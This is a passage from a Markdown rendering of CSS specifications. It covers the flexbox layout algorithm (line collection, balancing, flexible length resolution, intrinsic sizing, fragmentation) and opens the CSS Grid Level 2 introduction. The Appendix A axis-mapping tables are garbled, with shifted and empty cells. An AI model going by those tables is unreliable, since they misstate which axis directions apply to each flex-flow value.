   When determining the flex base size, the item’s min and max main sizes are ignored (no clamping occurs). Furthermore, the sizing calculations that floor the content box size at zero when applying `box-sizing` are also ignored. (For example, an item with a specified size of zero, positive padding, and `box-sizing: border-box` will have an outer flex base size of zero—​and hence a negative inner flex base size.)

   The hypothetical main size is the item’s flex base size clamped according to its used min and max main sizes (and flooring the content box size at zero).
3. **Determine the main size of the flex container** using the rules of the formatting context in which it participates.

   > **Note:** The automatic block size of a block-level flex container is its max-content size.
   >
   > The Block Layout spec should define this equivalency, but it doesn’t exist yet.

#### 9.3.  Main Size Determination {#css-flexbox-2:main-sizing}

1. **Collect flex items into flex lines:**

   **If the flex container is single-line,**

   : Collect all the flex items into a single flex line.

   **If the flex container is multi-line but not balancing,**

   : Starting from the first uncollected item, collect consecutive items one by one until the first time that the *next* collected item would not fit into the flex container’s inner main size (or until a forced break is encountered, see [§ 10 Fragmenting Flex Layout](#css-flexbox-2:pagination)). If the very first uncollected item wouldn’t fit, collect just it into the line.

  For this step, the size of a flex item is its outer hypothetical main size. (Note: This can be negative.)

  Repeat until all flex items have been collected into flex lines.

  > **Note:** that the "collect as many" line will collect zero-sized flex items onto the end of the previous line even if the last non-zero item exactly "filled up" the line.

   **If the flex container is multi-line and balancing,**

   : First determine how many flex lines will be produced by the non-balancing algorithm, above. For this purpose, floor the outer hypothetical main size of each flex item at zero. This can, if the items have large negative margins, result in a higher line count than a non-balancing flexbox. Let the *balancing line count* be the larger of this line count and the minimum flex line count.

  Then, balance flex items across *balancing line count* number of lines.
2. **[Resolve the flexible lengths](#css-flexbox-2:resolve-flexible-lengths)** of all the flex items to find their used main size. See [§ 9.8 Resolving Flexible Lengths](#css-flexbox-2:resolve-flexible-lengths).

#### 9.4.  Cross Size Determination {#css-flexbox-2:cross-sizing}

1. **Determine the **hypothetical cross size** of each item** by performing layout as if it were an in-flow block-level box with the used main size and the given available space, treating `auto` as `fit-content`.
2. **Calculate the cross size of each flex line.**

   If the flex container is single-line and has a definite cross size, the cross size of the flex line is the flex container’s inner cross size.

   Otherwise, for each flex line:

  1. Collect all the flex items whose inline-axis is parallel to the main-axis, whose `align-self` is `baseline`, and whose cross-axis margins are both non-`auto`. Find the largest of the distances between each item’s baseline and its hypothetical outer cross-start edge, and the largest of the distances between each item’s baseline and its hypothetical outer cross-end edge, and sum these two values.
  2. Among all the items not collected by the previous step, find the largest outer hypothetical cross size.
  3. The used cross size of the flex line is the largest of the numbers found in the previous two steps and zero.

     If the flex container is single-line, then clamp the line’s cross-size to be within the container’s computed min and max cross sizes. Note that if CSS 2.1’s definition of min/max-width/height applied more generally, this behavior would fall out automatically.
3. **Handle 'align-content: stretch'.** If the flex container has a definite cross size, `align-content` is `stretch`, and the sum of the flex lines' cross sizes is less than the flex container’s inner cross size, increase the cross size of each flex line by equal amounts such that the sum of their cross sizes exactly equals the flex container’s inner cross size.
4. **Collapse `visibility:collapse` items.** If any flex items have `visibility: collapse`, note the cross size of the line they’re in as the item’s *strut size*, and restart layout from the beginning.

   In this second layout round, when [collecting items into lines](#css-flexbox-2:algo-line-break), treat the collapsed items as having zero main size. For the rest of the algorithm following that step, ignore the collapsed items entirely (as if they were `display:none`) except that after [calculating the cross size of the lines](#css-flexbox-2:algo-cross-line), if any line’s cross size is less than the largest *strut size* among all the collapsed items in the line, set its cross size to that *strut size*.

   Skip this step in the second layout round.
5. **Determine the used cross size of each flex item.** If a flex item’s cross size depends on the available space in the cross axis, recalculate its cross size using the flex line’s cross size (rather than the flex container’s) as the available space. Otherwise, the used cross size is the item’s hypothetical cross size.

   If the flex item’s cross size changed as a result, redo layout for its contents, treating this used size as its definite cross size so that percentage-sized children can be resolved.

   > **Note:** This step does not affect the main size of the flex item, even if it has a preferred aspect ratio.

#### 9.5.  Main-Axis Alignment {#css-flexbox-2:main-alignment}

1. **Distribute any remaining free space.** For each flex line:

  1. If the remaining free space is positive and at least one main-axis margin on this line is `auto`, distribute the free space equally among these margins. Otherwise, set all auto margins to zero.
  2. Align the items along the main-axis per `justify-content`.

#### 9.6.  Cross-Axis Alignment {#css-flexbox-2:cross-alignment}

1. **Resolve cross-axis `auto` margins.** If a flex item has `auto` cross-axis margins:

  - If its outer cross size (treating those `auto` margins as zero) is less than the cross size of its flex line, distribute the difference in those sizes equally to the auto margins.
  - Otherwise, if the block-start or inline-start margin (whichever is in the cross axis) is `auto`, set it to zero. Set the opposite margin so that the outer cross size of the item equals the cross size of its flex line.
2. **Align all flex items along the cross-axis** per `align-self`, if neither of the item’s cross-axis margins are `auto`.
3. **Determine the flex container’s used cross size** using the rules of the formatting context in which it participates. If a content-based cross size is needed, use the sum of the flex lines' cross sizes.
4. **Align all flex lines** per `align-content`.

#### 9.7.  Balancing Flex Items {#css-flexbox-2:algo-balance}

To **balance flex items** for a flex container across a number of flex lines *line count*, divide its flex items into exactly *line count* numbers of contiguous sequences, under the following conditions:

- At least one flex item is assigned to each sequence.
- The sum of the flex item sizes of all the flex items in the sequence (the *line size*) do not exceed the inner main size of the flex container (unless it’s a single overflowing item).
- If a flex item’s size is zero, the preceding sequence was not overflowing, and it could be assigned either to the end of the preceding sequence or the beginning of the next sequence, it is assigned to the end of the preceding sequence. Otherwise, it’s assigned to the beginning of the next sequence.
- Calling the difference between the *line size* and the flex container’s inner main size a sequence’s *error*, the sum of the squared *error* across all sequences is minimized.

For the purpose of this algorithm, a flex item’s size is its outer hypothetical main size, floored at 0.

If multiple possible sequence assignments have equal minimum *error*, select the sequence that assigns the most items to the first line; if multiple sequences tie by that metric, select the sequence among them that assigns the most items to the second line; etc.

Assign each sequence of flex items to the corresponding flex line.

> **Note:** Because all items have zero or positive size, and thus adding an item to a line never increases the error, there are efficient, nearly linear algorithms to minimize the sum of squared error, such as [SMAWK algorithm](https://en.wikipedia.org/wiki/SMAWK_algorithm). (A naive minimization algo is O(n^2) in the number of items being balanced, which is not usable in practice.)

#### 9.8.  Resolving Flexible Lengths {#css-flexbox-2:resolve-flexible-lengths}

To resolve the flexible lengths of the items within a flex line:

1. **Determine the used flex factor**. Sum the outer hypothetical main sizes of all items on the line. If the sum is less than the flex container’s inner main size, use the flex grow factor for the rest of this algorithm; otherwise, use the flex shrink factor.
2. Each item in the flex line has a **target main size**, initially set to its flex base size. Each item is initially *unfrozen* and may become *frozen*.

   > **Note:** An item’s target main size doesn’t change after freezing.
3. **Size inflexible items.** Freeze, setting its target main size to its hypothetical main size…

  - any item that has a flex factor of zero
  - if using the flex grow factor: any item that has a flex base size greater than its hypothetical main size
  - if using the flex shrink factor: any item that has a flex base size smaller than its hypothetical main size
4. **Calculate **initial free space**.** Sum the outer sizes of all items on the line, and subtract this from the flex container’s inner main size. For frozen items, use their outer target main size; for other items, use their outer flex base size.
5. Loop:

  1. **Check for flexible items.** If all the flex items on the line are frozen, exit this loop.
  2. **Calculate the **remaining free space**** as for initial free space, above. If the sum of the unfrozen flex items’ flex factors is less than one, multiply the initial free space by this sum. If the magnitude of this value is less than the magnitude of the remaining free space, use this as the remaining free space.
  3. If the remaining free space is non-zero, **distribute it proportional to the flex factors**:

     **If using the flex grow factor**

     : For every unfrozen item on the line, find the ratio of the item’s flex grow factor to the sum of the flex grow factors of all unfrozen items on the line. Set the item’s target main size to its flex base size plus a fraction of the remaining free space proportional to the ratio.

     **If using the flex shrink factor**

     : For every unfrozen item on the line, multiply its flex shrink factor by its inner flex base size, and note this as its **scaled flex shrink factor**. Find the ratio of the item’s scaled flex shrink factor to the sum of the scaled flex shrink factors of all unfrozen items on the line. Set the item’s target main size to its flex base size minus a fraction of the absolute value of the remaining free space proportional to the ratio. Note this may result in a negative inner main size; it will be corrected in the next step.
  4. **Fix min/max violations.** Clamp each non-frozen item’s target main size by its used min and max main sizes and floor its content-box size at zero. If the item’s target main size was made smaller by this, it’s a max violation. If the item’s target main size was made larger by this, it’s a min violation.
  5. **Freeze over-flexed items.** The total violation is the sum of the adjustments from the previous step `∑(clamped size - unclamped size)`. If the total violation is:

     **Zero**

     : Freeze all items.

     **Positive**

     : Freeze all the items with min violations.

     **Negative**

     : Freeze all the items with max violations.

     > **Note:** This freezes at least one item, ensuring that the loop makes progress and eventually terminates.
  6. Return to the start of this loop.
6. Set each item’s used main size to its target main size.

#### 9.9.  Definite and Indefinite Sizes {#css-flexbox-2:definite-sizes}

Although CSS Sizing [CSS-SIZING-3] defines definite and indefinite lengths, Flexbox has several additional cases where a length can be considered **definite**:

1. If the flex container has a definite main size, then the post-flexing main sizes of its flex items are treated as definite.
2. If a flex item’s flex basis is definite, then its post-flexing main size is also definite.
3. If a single-line flex container has a definite cross size, the automatic preferred outer cross size of any stretched flex items is the flex container’s inner cross size (clamped to the flex item’s min and max cross size) and is considered definite.
4. Once the cross size of a flex line has been determined, the cross sizes of items in auto-sized flex containers are also considered definite for the purpose of layout; see [step 11](#css-flexbox-2:algo-stretch).

> **Note:** This means that within flex layout, “definite” sizes can require performing layout. This was done to allow percentages inside of flex items to resolve where authors expected them to resolve.

#### 9.10.  Intrinsic Sizes {#css-flexbox-2:intrinsic-sizes}

The intrinsic sizing of a flex container is used to produce various types of content-based automatic sizing, such as shrink-to-fit logical widths (which use the `fit-content` formula) and content-based logical heights (which use the max-content size). For these computations, `auto` margins on flex items are treated as `0`.

See [CSS-SIZING-3] for a definition of the terms in this section.

##### 9.10.1.  Flex Container Intrinsic Main Sizes {#css-flexbox-2:intrinsic-main-sizes}

The **max-content main size of a flex container** is, theoretically, the smallest size the flex container can take such that when flex layout is run with that container size, each flex item ends up at least as large as its [max-content contribution](#css-flexbox-2:intrinsic-item-contributions), to the extent allowed by the items’ flexibility.

The **min-content main size of a flex container** is, theoretically, the smallest size the flex container can take such that no items overflow it, and no item’s contents overflow the item—​setting aside the cases in which the boxes layouts are *defined* to overflow (for example with negative margins or percentage sizes that add up to more than 100%).

For the min-content size of a multi-line flex container, see [§ 9.10.1.3 Multi-line Min-content Algorithm](#css-flexbox-2:intrinsic-main-sizes-multiline). For max-content sizes and for single-line min-content sizes, an implementation is conformant to CSS Flexible Box Layout if it conforms to either the Ideal Algorithm or the Web-compatible Algorithm, as defined below.

###### 9.10.1.1.  Ideal Algorithm: Max-content Size and Min-content Single-line Size {#css-flexbox-2:intrinsic-main-sizes-ideal}

> **Note:** The following algorithm calculates the flex container’s ideal intrinsic main sizes. However, because it was not implemented correctly initially, and existing content became dependent on the (unfortunately consistent) incorrect implemented behavior, [it is not Web-compatible](https://github.com/w3c/csswg-drafts/issues/8884). Implementers and the CSS Working Group are investigating to what extent Web browser implementations can safely approach this behavior, and further experimentation is welcome.

Considering only non-collapsed flex items;

1. For each flex item, subtract its outer flex base size from its [max-content contribution](#css-flexbox-2:intrinsic-item-contributions) size. If that result is positive, divide it by the item’s flex grow factor if the flex grow factor is ≥ 1, or multiply it by the flex grow factor if the flex grow factor is < 1; if the result is negative, divide it by the item’s scaled flex shrink factor (if dividing by zero, treat the result as negative infinity). This is the item’s *desired flex fraction*.
2. Place all flex items into lines of infinite length. Within each line, find the greatest (most positive) *desired flex fraction* among all the flex items. This is the line’s *chosen flex fraction*.
3. If the *chosen flex fraction* is positive, and the sum of the line’s flex grow factors is less than 1, divide the *chosen flex fraction* by that sum.

   If the *chosen flex fraction* is negative, and the sum of the line’s flex shrink factors is less than 1, multiply the *chosen flex fraction* by that sum.
4. Add each item’s flex base size to the product of its flex grow factor (scaled flex shrink factor, if shrinking) and the *chosen flex fraction*, then clamp that result by the max main size floored by the min main size.
5. The flex container’s max-content size is the largest sum (among all the lines) of the afore-calculated sizes of all items within a single line.

The **min-content main size** of a *single-line* flex container is calculated identically to the max-content main size, except that the flex items’ [min-content contributions](#css-flexbox-2:intrinsic-item-contributions) are used instead of their [max-content contributions](#css-flexbox-2:intrinsic-item-contributions).

> **Note:** Implications of this algorithm when the sum of flex is less than 1
>
> The above algorithm is designed to give the correct behavior for two cases in particular, and make the flex container’s size continuous as you transition between the two:
>
> 1. If all items are inflexible, the flex container is sized to the sum of their flex base size. (An inflexible flex base size basically substitutes for a `width`/`height`, which, when specified, is what a max-content contribution is based on in Block Layout.)
> 2. When all items are flexible with flex factors ≥ 1, the flex container is sized to the sum of the max-content contributions of its items (or perhaps a slightly larger size, so that every flex item is *at least* the size of its max-content contribution, but also has the correct ratio of its size to the size of the other items, as determined by its flexibility).
>
> For example, if a flex container has a single flex item with `flex-basis: 100px;` but a max-content size of `200px`, then when the item is `flex-grow: 0`, the flex container (and flex item) is `100px` wide, but when the item is `flex-grow: 1` or higher, the flex container (and flex item) is `200px` wide.
>
> There are several possible ways to make the overall behavior continuous between these two cases, but all of them have drawbacks. We chose one we feel has the least bad implications; unfortunately, it "double-applies" the flexibility in cases with flex factors that are < 1. In the above example, if the item has `flex-grow: .5`, then the flex container ends up `150px` wide, but the item then sizes normally into that available space, ending up `125px` wide.
>
> > **Note:** Even more involved notes on the specific behavior chosen
> >
> > Principles:
> >
> > 1. Don’t explode any sizes, whether growing or shrinking, as inputs approach zero.
> > 2. When flex factors are all >=1, return the minimum size necessary for every item to be >= max-content size.
> > 3. Items with a zero flex shouldn’t affect the sizes at all.
> > 4. Keep it continuous over variance of flex factors and item sizes.
> > 5. Keep sizing variance as linear as possible with respect to linear changes to any input variable (size, flex factor).
> > 6. When the sum of flex factors is >=1, return the minimum size necessary for every item to be >= max-content size.
> >
> > To get these all to work together, we have to apply some correction when either flex factors or the sum of flex factors on a line is < 1.
> >
> > For shrink our behavior is somewhat easier; since the explosive case of 0 shrink results in a negative infinity desired fraction which we’ll never choose (since we always take the largest), we can just apply the correction at the line level, giving us double-application only when the sum is < 1.
> >
> > For positives it’s more complicated. 0 grow naively explodes into *positive* infinity, which we’d choose, so we need to apply the correction at the individual item level. We do that by multiplying the space by the factor when factor is <1. Leaving it at that would result in a double-application for items < 1 but sum >= 1, but a *triple*-application when the sum is < 1. To avoid *that* ridiculousness, we apply a *reverse* correction when the sum is 1, dividing by the sum instead. This leaves us with a double correction in all cases for items with factors < 1.
> >
> > We can’t eliminate the double-applications entirely without giving up other, more important principles (in particular, principle 3 —​try to come up with rules that don’t double-apply when you have two items with `flex-grow: .5`, but also don’t give a `flex-grow: 0` item any power over a `flex-grow: 1` sibling; you can’t, as far as we can tell.)

###### 9.10.1.2.  Web-compatible Intrinsic Sizing Algorithm: Max-content Size and Min-content Single-line Size {#css-flexbox-2:intrinsic-main-sizes-compat}

> **Note:** The following algorithm has been demonstrated to be Web-compatible. It may be altered in the future to bring it closer to the ideal algorithm above, if possible.

- For the max-content size of a flex container, take the sum of the [max-content contributions](#css-flexbox-2:intrinsic-item-contributions) of all the non-collapsed flex items in the flex container.
- For the min-content size of a *single-line* container, take the sum of the [min-content contributions](#css-flexbox-2:intrinsic-item-contributions) of all the non-collapsed flex items in the flex container.

###### 9.10.1.3.  Multi-line Min-content Algorithm {#css-flexbox-2:intrinsic-main-sizes-multiline}

For a *multi-line* container, the min-content main size is simply the largest [min-content contribution](#css-flexbox-2:intrinsic-item-contributions) of all the non-collapsed flex items in the flex container.

##### 9.10.2.  Flex Container Intrinsic Cross Sizes {#css-flexbox-2:intrinsic-cross-sizes}

The **min-content/max-content cross size** of a *single-line* flex container is the largest min-content contribution/max-content contribution (respectively) of its flex items.

For a *multi-line* flex container, the behavior depends on whether it’s a row or column flexbox:

**`row` multi-line flex container cross size**

: The min-content/max-content cross size is the sum of the flex line cross sizes resulting from sizing the flex container under a cross-axis min-content constraint/max-content constraint (respectively).

**`column` multi-line flex container cross size**

: The min-content cross size is the largest min-content contribution among all of its flex items.

  > **Note:** This heuristic effectively assumes a single flex line, in order to guarantee that the min-content size is smaller than the max-content size. If the flex container has a height constraint, this will result in overflow, but if the flex container is also a scroll container, it will at least be large enough to fit any given column entirely within its scrollport.

  The max-content cross size is the sum of the flex line cross sizes resulting from sizing the flex container under a cross-axis max-content constraint, using the largest max-content cross-size contribution among the flex items as the available space in the cross axis for each of the flex items during layout.

  > **Note:** This heuristic gives a reasonable approximation of the size that the flex container should be, with each flex item laid out at its max-content contribution or larger, and each flex line no larger than its largest flex item. It’s not a *perfect* fit in some cases, but doing it completely correct is insanely expensive, and this works reasonably well.

##### 9.10.3.  Flex Item Intrinsic Size Contributions {#css-flexbox-2:intrinsic-item-contributions}

The **main-size min-content contribution of a flex item** is the larger of its *outer* min-content size and outer preferred size if that is not an automatic size.

The **main-size max-content contribution of a flex item** is the larger of its *outer* max-content size and outer preferred size if that is not an automatic size.

For this purpose, each contribution is capped by the item’s flex base size if the item is not growable, floored by the item’s flex base size if the item is not shrinkable, and then further clamped by the item’s min/max main size.

### 10.  Fragmenting Flex Layout {#css-flexbox-2:pagination}

Flex containers can break across pages between items, between lines of items (in multi-line mode), and inside items. The `break-*` properties apply to flex containers as normal for block-level or inline-level boxes. This section defines how they apply to flex items and the contents of flex items. See the [CSS Fragmentation Module](#css-break-4) for more context [CSS3-BREAK].

The following breaking rules refer to the fragmentation container as the “page”. The same rules apply in any other fragmentation context. (Substitute “page” with the appropriate fragmentation container type as needed.) For readability, in this section the terms "row" and "column" refer to the relative orientation of the flex container with respect to the block flow direction of the fragmentation context, rather than to that of the flex container itself.

The exact layout of a fragmented flex container is not defined in this level of Flexible Box Layout. However, breaks inside a flex container are subject to the following rules (interpreted using order-modified document order):

- In a row flex container, the `break-before` and `break-after` values on flex items are propagated to the flex line. The `break-before` values on the first line and the `break-after` values on the last line are propagated to the flex container.

  > **Note:** Break propagation (like `text-decoration` propagation) does not affect computed values.
- In a column flex container, the `break-before` values on the first item and the `break-after` values on the last item are propagated to the flex container. Forced breaks on other items are applied to the item itself.
- A forced break inside a flex item effectively increases the size of its contents; it does not trigger a forced break inside sibling items.
- In a row flex container, [Class A break opportunities](#css-break-4:btw-blocks) occur between sibling flex lines, and [Class C break opportunities](#css-break-4:end-block) occur between the first/last flex line and the flex container’s content edges. In a column flex container, [Class A break opportunities](#css-break-4:btw-blocks) occur between sibling flex items, and [Class C break opportunities](#css-break-4:end-block) occur between the first/last flex items on a line and the flex container’s content edges. [CSS3-BREAK]
- When a flex container is continued after a break, the space available to its flex items (in the block flow direction of the fragmentation context) is reduced by the space consumed by flex container fragments on previous pages. The space consumed by a flex container fragment is the size of its content box on that page. If as a result of this adjustment the available space becomes negative, it is set to zero.
- If the first fragment of the flex container is not at the top of the page, and none of its flex items fit in the remaining space on the page, the entire fragment is moved to the next page.
- When breaking a multi-line column flex container, the UA may organize each fragment into its own “stack” of flex lines—​just like each fragment of a multi-column container has its own row of column boxes—​in order to ensure that content presented on earlier pages corresponds to content earlier in the box order.
- Aside from the rearrangement of items imposed by the previous point, UAs should attempt to minimize distortion of the flex container with respect to unfragmented flow.

#### 10.1.  Sample Flex Fragmentation Algorithm {#css-flexbox-2:pagination-algo}

This informative section presents a possible fragmentation algorithm for flex containers. Implementors are encouraged to improve on this algorithm and [provide feedback to the CSS Working Group](#css-flexbox-2:sotd).

> **Example:** > **Note:** This algorithm assumes that pagination always proceeds only in the forward direction; therefore, in the algorithms below, alignment is mostly ignored prior to pagination. Advanced layout engines may be able to honor alignment across fragments.
>
> **single-line column flex container**
>
> : 1. Run the flex layout algorithm (without regards to pagination) through [Cross Sizing Determination](#css-flexbox-2:cross-sizing).
>   2. Lay out as many consecutive flex items or item fragments as possible (but at least one or a fragment thereof), starting from the first, until there is no more room on the page or a forced break is encountered.
>   3. If the previous step ran out of room and the free space is positive, the UA may reduce the distributed free space on this page (down to, but not past, zero) in order to make room for the next unbreakable flex item or fragment. Otherwise, the item or fragment that does not fit is pushed to the next page. The UA should pull up if more than 50% of the fragment would have fit in the remaining space and should push otherwise.
>   4. If there are any flex items or fragments not laid out by the previous steps, rerun the flex layout algorithm from [Line Length Determination](#css-flexbox-2:line-sizing) through [Cross Sizing Determination](#css-flexbox-2:cross-sizing) with the next page’s size and *all* the contents (including those already laid out), and return to the previous step, but starting from the first item or fragment not already laid out.
>   5. For each fragment of the flex container, continue the flex layout algorithm from [Main-Axis Alignment](#css-flexbox-2:main-alignment) to its finish.
>
>   > **Note:** It is the intent of this algorithm that column-direction single-line flex containers paginate very similarly to block flow. As a test of the intent, a flex container with `justify-content:start` and no flexible items should paginate identically to a block with in-flow children with same content, same used size and same used margins.
>
> **multi-line column flex container**
>
> : 1. Run the flex layout algorithm *with* regards to pagination (limiting the flex container’s maximum line length to the space left on the page) through [Cross Sizing Determination](#css-flexbox-2:cross-sizing).
>   2. Lay out as many flex lines as possible (but at least one) until there is no more room in the flex container in the cross dimension or a forced break is encountered:
>
>     1. Lay out as many consecutive flex items as possible (but at least one), starting from the first, until there is no more room on the page or a forced break is encountered. Forced breaks *within* flex items are ignored.
>     2. If this is the first flex container fragment, this line contains only a single flex item that is larger than the space left on the page, and the flex container is not at the top of the page already, move the flex container to the next page and restart flex container layout entirely.
>     3. If there are any flex items not laid out by the first step, rerun the flex layout algorithm from [Main Sizing Determination](#css-flexbox-2:main-sizing) through [Cross Sizing Determination](#css-flexbox-2:cross-sizing) using only the items not laid out on a previous line, and return to the previous step, starting from the first item not already laid out.
>   3. If there are any flex items not laid out by the previous step, rerun the flex layout algorithm from [Line Sizing Determination](#css-flexbox-2:line-sizing) through [Cross Sizing Determination](#css-flexbox-2:cross-sizing) with the next page’s size and only the items not already laid out, and return to the previous step, but starting from the first item not already laid out.
>   4. For each fragment of the flex container, continue the flex layout algorithm from [Main-Axis Alignment](#css-flexbox-2:main-alignment) to its finish.
>
>   > **Note:** A shortcoming of this sample algorithm is that if a flex item does not entirely fit on a single page, it will *not* be paginated in multi-line column flex containers.
>
> **single-line row flex container**
>
> : 1. Run the entire flex layout algorithm (without regards to pagination), except treat any `align-self` other than `flow-start` or `baseline` as `flow-start`.
>   2. If an unbreakable item doesn’t fit within the space left on the page, and the flex container is not at the top of the page, move the flex container to the next page and restart flex container layout entirely.
>   3. For each item, lay out as much of its contents as will fit in the space left on the page, and fragment the remaining content onto the next page, rerunning the flex layout algorithm from [Line Length Determination](#css-flexbox-2:line-sizing) through [Main-Axis Alignment](#css-flexbox-2:main-alignment) into the new page size using *all* the contents (including items completed on previous pages).
>
>      > **Note:** Any flex items that fit entirely into previous fragments still take up space in the main axis in later fragments.
>   4. For each fragment of the flex container, rerun the flex layout algorithm from [Cross-Axis Alignment](#css-flexbox-2:cross-alignment) to its finish. For all fragments besides the first, treat `align-self` and `align-content` as being `flow-start` for all item fragments and lines.
>   5. If any item, when aligned according to its original `align-self` value into the combined cross size of all the flex container fragments, would fit entirely within a single flex container fragment, it may be shifted into that fragment and aligned appropriately.
>
> **multi-line row flex container**
>
> : 1. Run the flex layout algorithm (without regards to pagination), through [Cross Sizing Determination](#css-flexbox-2:cross-sizing).
>   2. Lay out as many flex lines as possible (but at least one), starting from the first, until there is no more room on the page or a forced break is encountered.
>
>      If a line doesn’t fit on the page, and the line is not at the top of the page, move the line to the next page and restart the flex layout algorithm entirely, using only the items in and following this line.
>
>      If a flex item itself causes a forced break, rerun the flex layout algorithm from [Main Sizing Determination](#css-flexbox-2:main-sizing) through [Main-Axis Alignment](#css-flexbox-2:main-alignment), using only the items on this and following lines, but with the item causing the break automatically starting a new line in the [line breaking step](#css-flexbox-2:algo-line-break), then continue with this step. Forced breaks *within* flex items are ignored.
>   3. If there are any flex items not laid out by the previous step, rerun the flex layout algorithm from [Line Length Determination](#css-flexbox-2:line-sizing) through [Main-Axis Alignment](#css-flexbox-2:main-alignment) with the next page’s size and only the items not already laid out. Return to the previous step, but starting from the first line not already laid out.
>   4. For each fragment of the flex container, continue the flex layout algorithm from [Cross Axis Alignment](#css-flexbox-2:cross-alignment) to its finish.

### Appendix A: Axis Mappings {#css-flexbox-2:axis-mapping}

*This appendix is non-normative.*

| `flex-flow` | main axis | start | end | cross axis | start | end |
| --- | --- | --- | --- | --- | --- | --- |
| `row` + `nowrap`/`wrap` | horizontal | left | right | vertical | top | bottom |
| `row-reverse` + `nowrap`/`wrap` | right | left |  |  |  |  |
| `row` + `wrap-reverse` | left | right | bottom | top |  |  |
| `row-reverse` + `wrap-reverse` | right | left |  |  |  |  |
| `column` + `nowrap`/`wrap` | vertical | top | bottom | horizontal | left | right |
| `column-reverse` + `nowrap`/`wrap` | bottom | top |  |  |  |  |
| `column` + `wrap-reverse` | top | bottom | right | left |  |  |
| `column-reverse` + `wrap-reverse` | bottom | top |  |  |  |  |

| `flex-flow` | main axis | main-start | main-end | cross axis | cross-start | cross-end |
| --- | --- | --- | --- | --- | --- | --- |
| `row` + `nowrap`/`wrap` | horizontal | right | left | vertical | top | bottom |
| `row-reverse` + `nowrap`/`wrap` | left | right |  |  |  |  |
| `row` + `wrap-reverse` | right | left | bottom | top |  |  |
| `row-reverse` + `wrap-reverse` | left | right |  |  |  |  |
| `column` + `nowrap`/`wrap` | vertical | top | bottom | horizontal | right | left |
| `column-reverse` + `nowrap`/`wrap` | bottom | top |  |  |  |  |
| `column` + `wrap-reverse` | top | bottom | left | right |  |  |
| `column-reverse` + `wrap-reverse` | bottom | top |  |  |  |  |

| `flex-flow` | main axis | start | end | cross axis | start | end |
| --- | --- | --- | --- | --- | --- | --- |
| `row` + `nowrap`/`wrap` | vertical | top | bottom | horizontal | right | left |
| `row-reverse` + `nowrap`/`wrap` | bottom | top |  |  |  |  |
| `row` + `wrap-reverse` | top | bottom | left | right |  |  |
| `row-reverse` + `wrap-reverse` | bottom | top |  |  |  |  |
| `column` + `nowrap`/`wrap` | vertical | right | left | horizontal | top | bottom |
| `column-reverse` + `nowrap`/`wrap` | left | right |  |  |  |  |
| `column` + `wrap-reverse` | right | left | bottom | top |  |  |
| `column-reverse` + `wrap-reverse` | left | right |  |  |  |  |

### Appendix B: `-webkit-` Legacy Properties {#css-flexbox-2:webkit-aliases}

*This appendix is normative.*

**These aliases are *deprecated* and authors *should not* use them unless their content needs to support actively-used legacy UAs.**

For compatibility with general Web content, UAs that are Web browsers must and other UAs may implement the following legacy name aliases:

| Alias | Standard |
| --- | --- |
| -webkit-align-content | align-content |
| -webkit-align-items | align-items |
| -webkit-align-self | align-self |
| -webkit-flex | flex |
| -webkit-flex-basis | flex-basis |
| -webkit-flex-direction | flex-direction |
| -webkit-flex-flow | flex-flow |
| -webkit-flex-grow | flex-grow |
| -webkit-flex-shrink | flex-shrink |
| -webkit-flex-wrap | flex-wrap |
| -webkit-justify-content | justify-content |
| -webkit-order | order |

---

## CSS Grid Layout Module Level 2 {#css-grid-2}

- **Shortname:** `css-grid-2`
- **Editor's Draft:** [https://drafts.csswg.org/css-grid-2/](https://drafts.csswg.org/css-grid-2/)
- **Published TR:** [https://www.w3.org/TR/css-grid-2/](https://www.w3.org/TR/css-grid-2/)
- **W3C Status:** CRD (testing)
- **Last Edited:** 2023-10-30

> **Issue:** If you notice any inconsistencies between this Grid Layout Module and the [Flexible Box Layout Module](#css-flexbox-2), please report them to the CSSWG, as this is likely an error.

### 1.  Introduction {#css-grid-2:intro}

*This section is not normative.*

Grid Layout is a layout model for CSS that has powerful abilities to control the sizing and positioning of boxes and their contents. Unlike [Flexible Box Layout](#css-flexbox-2), which is single-axis–oriented, Grid Layout is optimized for 2-dimensional layouts: those in which alignment of content is desired in both dimensions.


Representative Flex Layout Example


Representative Grid Layout Example

In addition, due to its ability to explicitly position items in the grid, Grid Layout allows dramatic transformations in visual layout structure without requiring corresponding markup changes. By combining [media queries](#mediaqueries-5) with the CSS properties that control layout of the grid container and its children, authors can adapt their layout to changes in device form factors, orientation, and available space, while preserving a more ideal semantic structuring of their content across presentations.

Although many layouts can be expressed with either Grid or Flexbox, they each have their specialties. Grid enforces 2-dimensional alignment, uses a top-down approach to layout, allows explicit overlapping of items, and has more powerful spanning capabilities. Flexbox focuses on space distribution within an axis, uses a simpler bottom-up approach to layout, can use a content-size–based line-wrapping system to control its secondary axis, and relies on the underlying markup hierarchy to build more complex layouts. It is expected that both will be valuable and complementary tools for CSS authors.

Grid Level 2 adds the [subgrid](#css-grid-2:subgrids) feature: a subgridded axis is one which matches up its grid lines to lines in the element’s parent’s grid, and which derives the sizes of its tracks through this integration with the parent grid.

#### 1.1.  Background and Motivation {#css-grid-2:background}


Application layout example requiring horizontal and vertical alignment.

As websites evolved from simple documents into complex, interactive applications, techniques for document layout, e.g. floats, were not necessarily well suited for application layout. By using a combination of tables, JavaScript, or careful measurements on floated elements, authors discovered workarounds to achieve desired layouts. Layouts that adapted to the available space were often brittle and resulted in counter-intuitive behavior as space became constrained. As an alternative, authors of many web applications opted for a fixed layout that cannot take advantage of changes in the available rendering space on a screen.

The capabilities of grid layout address these problems. It provides a mechanism for authors to divide available space for layout into columns and rows using a set of predictable sizing behaviors. Authors can then precisely position and size the building block elements of their application into the grid areas defined by the intersections of these columns and rows. The following examples illustrate the adaptive capabilities of grid layout, and how it allows a cleaner separation of content and style.

##### 1.1.1.  Adapting Layouts to Available Space {#css-grid-2:adapting-to-available-space}


Five grid items arranged according to content size and available space.


Growth in the grid due to an increase in available space.

Grid layout can be used to intelligently resize elements within a webpage. The adjacent figures represent a game with five major components in the layout: the game title, stats area, game board, score area, and control area. The author’s intent is to divide the space for the game such that:

- The stats area always appears immediately under the game title.
- The game board appears to the right of the stats and title.
- The top of the game title and the game board should always align.
- The bottom of the game board and bottom of the stats area align when the game has reached its minimum height. In all other cases the game board will stretch to take advantage of all the space available to it.
- The controls are centered under the game board.
- The top of the score area is aligned to the top of the controls area.
- The score area is beneath the stats area.
- The score area is aligned to the controls beneath the game board.

The following grid layout example shows how an author might achieve all the sizing, placement, and alignment rules declaratively.

> **Example:** ```css
> /**
>  * Define the space for each grid item by declaring the grid
>  * on the grid container.
>  */
> #grid {
>   /**
>    * Two columns:
>    *  1. the first sized to content,
>    *  2. the second receives the remaining space
